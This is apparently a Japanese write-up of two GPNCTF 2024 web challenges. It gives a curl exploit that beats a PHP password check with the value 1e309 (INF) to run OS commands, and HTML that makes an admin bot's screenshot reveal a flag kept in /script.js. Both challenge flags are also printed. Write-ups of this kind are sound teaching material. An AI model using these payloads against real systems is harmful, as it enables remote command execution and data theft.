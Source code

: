 ```yaml
---
title: "GPNCTF Writeup"
id: "GPNCTF-2024-Writeup"
description: "GPNCTFのWriteupです。"
author: "rikoteki"
createdAt: "2024-06-02"
isDraft: false
---
```


Webサイトがプレイリストっぽくてかっこ良い。

Webジャンルの2問だけ説いた。

# [Web] Never gonna tell a lie and type you

シンプルな単一PHPファイルのWebアプリ。

```php
<?php
       ini_set("display_errors",1);
       error_reporting(E_ALL);
//we tought about using passwords but you see everyone says they are insecure thus we came up with our own riddle.
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;

}
//this weird http parameter handling is old we use json
$user_input = json_decode($_POST["data"]);
//attention handling user data is dangerous
var_dump($user_input);

if ($_SERVER['HTTP_USER_AGENT'] != "friendlyHuman"){
    die("we don't tolerate toxicity");
}
    if($user_input->{'user'} === "admin🤠") {
        if ($user_input->{'password'} == securePassword($user_input->{'password'})  ){
            echo " hail admin what can I get you ". system($user_input->{"command"});
        }
        else {
            die("Skill issue? Maybe you just try  again?");
        }}
        else {
            echo "<html>";
            echo "<body>";
            echo "<h1>Welcome [to innovative Web Startup]</h1>";
            echo "<p> here we focus on the core values of each website. The backbone that carries the entire frontend</p><br><br>";
            echo "<blink>For this we only use old and trusty tools that are well documented and well tested</blink><br><br>";
            echo "<Big>That is not to say that we are not innovative, our authenticators are ahead of their time.</Big><br><br>";
           echo "<plaintext> to give you an teaser of our skills look at this example of commissioned work we build in a past project </plaintext>";

            echo system("fortune")."<br>";
        }
?>
```
ソースを読むと以下条件を満たすと`$.command`に設定したOSコマンドが実行できる様子。

- UAが`friendlyHuman`である
- `$.user`が`admin🤠`である
- `$.password` == `securePassword($.password)`である

`securePassword`関数の実装を見てみると、`password`が10000以上であることを検証している。
そして、`password`から導出した値と`password`自身を乗算した結果を返している。
`password` < 10000 の検証は0が使えないようにするためだろう。

```php
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;

}
```

ただし、`INF`の検証が行われていないため`securePassword`関数に`INF`を渡すと`INF`が返ってくる。

![image](https://github.com/r1k0t3k1/note/assets/57973603/fb16b9f6-e43a-4d75-a9af-36eb5fd8319c)

以上のことから`password`に、評価されるとINFになるような数値を指定することでOSコマンドが実行できる。

```bash
curl -X POST -H 'User-Agent: friendlyHuman'  --data-binary $'data={\"user\":\"admin\xf0\x9f\xa4\xa0\",\"password\":1e309,\"command\":\"cat /flag.txt\"}'  https://the-sound-of-silence--qzeng-1488.ctf.kitctf.de
```

## flag

```
GPNCTF{1_4M_50_C0NFU53D_R1GHT_N0W}
```

# [Web] todo

HTMLをSubmitすると管理者botがフラグ付きでアクセスしてくれる系の問題。

<details>
<summary>server.js</summary>

```js
const express = require('express');
const puppeteer = require('puppeteer');

const randomBytes = require('crypto').randomBytes(32).toString('hex');

const fs = require('fs');

const flag = process.env.FLAG || fs.readFileSync('./flag', 'utf8');
const script = fs.readFileSync('./script.js', 'utf8');

const app = express();
app.use(express.urlencoded({ extended: true }));

app.get('/', (req, res) => {
    res.send(`
        <h1>TODO</h1>
        <form action="/chal" method="post">
            <input type="text" name="html" placeholder="HTML">
            <button type="submit">Submit to /chal</button>
        </form>
        <hr>
        <form action="/admin" method="post">
            <input type="text" name="html" placeholder="HTML">
            <button type="submit">Submit to /admin</button>
        </form>
    `);
});

app.post('/chal', (req, res) => {
    const { html } = req.body;
    res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' 'unsafe-inline';");
    res.send(`
        <script src="/script.js"></script>
        ${html}
    `);
});

app.get('/script.js', (req, res) => {
    res.type('.js');
    let response = script;
    if ((req.get("cookie") || "").includes(randomBytes)) response = response.replace(/GPNCTF\{.*\}/, flag)
    res.send(response);
});

app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] });
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true });
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        const screenshot = await page.screenshot({ encoding: 'base64' });
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});

app.listen(1337, () => console.log('listening on http://localhost:1337'));
```
</details>

`/admin`にHTMLをSubmitすると管理者botがCookieにフラグを付与してアクセスしてくれる。
が、Cookie自体はHttpOnly属性が付与されている。

その他の挙動として、管理者botがアクセスしたページのスクリーンショットを撮影し、`/admin`のレスポンスとして返してくれるため、
管理者botが閲覧したページの描画結果が確認できる。

```js
app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] });
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true });
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        const screenshot = await page.screenshot({ encoding: 'base64' });
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});

```

フラグはどこにあるかというと`/script.js`というJavaScriptファイル内にコメントアウトされている。

```js
class FlagAPI {
    constructor() {
        throw new Error("Not implemented yet!")
    }

    static valueOf() {
        return new FlagAPI()
    }

    static toString() {
        return "<FlagAPI>"
    }

    // TODO: Make sure that this is secure before deploying
    // getFlag() {
    //     return "GPNCTF{FAKE_FLAG_ADMINBOT_WILL_REPLACE_ME}"
    // }
}⏎
```

このフラグ自体はダミーフラグであり、`/script.js`へのアクセスに管理者権限のCookieが付与されていた場合のみ、
正規のフラグに置換されてレスポンスされる。

```js
app.get('/script.js', (req, res) => {
    res.type('.js');
    let response = script;
    if ((req.get("cookie") || "").includes(randomBytes)) response = response.replace(/GPNCTF\{.*\}/, flag)
    res.send(response);
});
```

また、管理者botにアクセスさせるページには以下のようなCSPが設定される。

```
app.post('/chal', (req, res) => {
    const { html } = req.body;
    res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' 'unsafe-inline';");
    res.send(`
        <script src="/script.js"></script>
        ${html}
    `);
});
```

単純にJavaScript Hijack問題かと思ったが、フラグを出力する関数自体がコメントアウトされているため、読み込み元のJavaScriptで実行することができない。

このサイトの挙動を思い出すと、管理者botがアクセスしたページの描画結果が確認できるので、関数が実行できなくてもコメントアウトされているソース自体を見れるのではないかと考えた。

具体的には管理者botに閲覧させたHTMLから`/script.js`へのform submitを発生させ、テキストとして描画させる。

CSPに`default-src: none`が付与されているが`form-src`のフォールバックは無いため問題ない。

`/admin`へ送信するHTMLは以下

```html
<html>
    <body>
      <form id="form" action="/script.js" method="get"></form>
      <script>
        document.getElementById("form").submit();
      </script>
    </body>
</html>
```

このHTMLを送信するとフラグを含んだ画像が確認できる。

![image](https://github.com/r1k0t3k1/note/assets/57973603/a50bf8de-f075-4d8f-a62e-69618611b064)

## flag

```
GPNCTF{N0_C0MM3NT_b7c62b1e}
```
